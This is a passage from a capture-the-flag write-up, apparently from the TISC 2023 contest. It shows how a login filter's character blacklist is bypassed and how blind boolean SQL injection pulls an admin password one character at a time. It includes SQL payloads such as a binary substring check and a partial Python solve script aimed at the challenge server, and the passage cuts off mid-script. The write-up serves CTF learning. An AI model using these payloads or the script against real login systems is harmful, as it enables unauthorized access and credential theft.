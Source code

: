 I ran the function with blacklisted characters: `CraftQuery('"'.repeat(68) + '%02', 'B')`, and sure enough, the blacklist was bypassed.

```sql
SELECT * from Users WHERE username="""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""" AND password="B"
```

Now we have sql injection. Referring to the `db-init.sql` file provided, I saw that we needed to get the password of the admin. Unfortunately however, server.js does not give us the results of the sql query.

```javascript:server.js
...

db.query(sql, (err, results) => {
    if (err) {
        req.flash('error', 'Uh oh. Something went wrong.');
        req.session.save(() => {
            res.redirect('/');
        });
    } else if (results.length !== 0) {
        res.redirect(`/reminder?username=${username}`);
    } else {
        req.flash('error', 'Invalid username/password');
        req.session.save(() => {
            res.redirect('/');
        });
    }
});

...
```

Fortunately, though, it does provide us with information on whether 0 rows were returned by the query. We can extract the flag character by character, for example, using a query such as `admin" and binary substring(password, 1, 1) = "T";#` to check whether the first character is `T`, and we check through all possible characters for each index.

Here is my final solve script:

```python:s.py
import requests
import subprocess
from string import ascii_letters, digits

possible = ascii_letters + digits + '_'

url = 'http://chals.tisc23.ctf.sg:28471/api/login'

j = 6
ans = 'TISC{'
while True:
    for c in possible:
        print(str(j) + ': trying ' + c)
        pay0 = f'admin" and binary substring(password, {j}, 1) = "{c}";#'
        pay1 = pay0
        pay1 += 'A' * (68 - len(pay0)) + '%02'

        i = 1
        correct = False
        while True:
            if i % 50 == 0:
                print(i)
            resp = requests.post(url, data={'username': pay1, 'password': 'B'})
            if ('Something went wrong' not in resp.text):
                if 'Welcome, admin' in resp.text:
```